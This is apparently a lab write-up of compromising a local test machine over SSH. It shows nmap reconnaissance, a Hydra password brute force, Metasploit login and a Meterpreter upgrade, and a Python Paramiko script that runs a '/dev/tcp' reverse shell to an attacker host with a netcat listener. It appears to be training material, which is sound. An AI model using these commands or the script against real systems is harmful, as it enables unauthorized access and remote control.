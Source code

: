 # Phase 1: Exploitation and Reverse Shell

## ✅ Task 1.1: Compromise the target using Metasploit

### Service Targeted
- **Service**: SSH (OpenSSH 6.6.1p1)
- **Vulnerable Credentials**: `vagrant:vagrant`

### Steps Followed:
1. **Reconnaissance**:
   ```bash
   nmap -sV -p22 192.168.142.131
   ```
   - Identified OpenSSH running on port 22

2. **Brute-Force with Hydra**:
   ```bash
   hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.142.131 -t 4
   ```
   - Discovered working credentials: `vagrant:vagrant`

3. **Exploit with Metasploit**:
   ```
   sudo msfconsole
   use auxiliary/scanner/ssh/ssh_login
   set RHOSTS 192.168.142.131
   set USERNAME vagrant
   set PASSWORD vagrant
   run
   ```
   - SSH shell session established

4. **Upgrade to Meterpreter**:
   ```
   use post/multi/manage/shell_to_meterpreter
   set SESSION 1
   session 1 
   shell
   ```
   - Upgraded shell to Meterpreter session


## ✅ Task 1.2: Exploit via Custom Python Script

### Script Summary
- Used Python with Paramiko to automate SSH login and trigger a reverse shell.

### Python Script: `ssh_bruteforce_reverse.py`
```python
import paramiko
import time

host = "192.168.142.131"
port = 22
username = "vagrant"
password = "vagrant"
reverse_shell_cmd = "bash -i >& /dev/tcp/192.168.142.129/4444 0>&1"

client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
client.connect(host, port=port, username=username, password=password)

stdin, stdout, stderr = client.exec_command(reverse_shell_cmd)
time.sleep(2)
client.close()
```

### Listener on Attacker Machine
```bash
nc -lvnp 4444
```
- Successful reverse shell received.

---

📸 Screenshots to Include:
- Hydra output showing credentials found
- Metasploit SSH login success
- Meterpreter session after upgrade
- Netcat receiving reverse shell
- Python script execution

